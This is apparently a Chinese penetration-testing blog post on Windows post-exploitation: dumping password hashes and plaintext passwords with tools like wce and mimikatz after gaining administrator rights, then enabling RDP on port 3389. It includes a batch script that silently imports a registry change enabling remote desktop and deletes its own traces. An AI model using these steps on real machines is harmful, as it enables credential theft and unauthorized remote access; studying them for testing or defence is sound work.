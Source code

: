 +++
date = "2016-08-08T08:28:27+08:00"
description = ""
draft = false
tags = ["提权", "windows"]
title = "导出主机密码与开启3389"
topics = ["Pentest"]

+++


### 0x00 导出主机密码hash
* 条件
    * administrator以上权限
* 工具
    * wce
    * gethash
    * hashdump
* hash解密网站  
    * http://www.objectif-securite.ch/ophcrack.php
* 上传工具得到hash
{{% fluid_img src="/img/post/privilge_escalation_win_view_whoami.png" alt="查看是否为管理员以上权限" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_upload_wce.png" alt="上传wce" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_get_hash.png" alt="得到hash" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_get_pwd.png" alt="解出密码" %}}


### 0x01 导出主机密码
* 条件
    * administrator以上权限
    * 当前管理员没有注销登陆(可以通过query user命令看出)
* 工具
    * mimikatz
    * getpass
* 上传工具得到密码
{{% fluid_img src="/img/post/privilge_escalation_win_view_whoami.png" alt="查看是否为管理员以上权限" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_query_user.png" alt="查看管理员是否注销登陆" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_upload_getpass.png" alt="上传getpass" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_getpass1.png" alt="得到密码1" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_getpass2.png" alt="得到密码2" %}}

### 0x02 开启3389
* 直接使用注册表
{{% fluid_img src="/img/post/privilge_escalation_win_new_file_3389_reg.png" alt="新建开3389的注册表" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_open_3389.png" alt="开3389端口" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_open_3389_success.png" alt="成功开启3389端口" %}}

* 写一个批处理也行
```
# 3389.bat内容如下：
echo Windows Registry Editor Version 5.00>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg 
echo "fDenyTSConnections"=dword:00000000>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
regedit /s 3389.reg 
del 3389.reg
del 3389.bat
```
{{% fluid_img src="/img/post/privilge_escalation_win_new_file_3389_bat.png" alt="新建开3389的注册表" %}}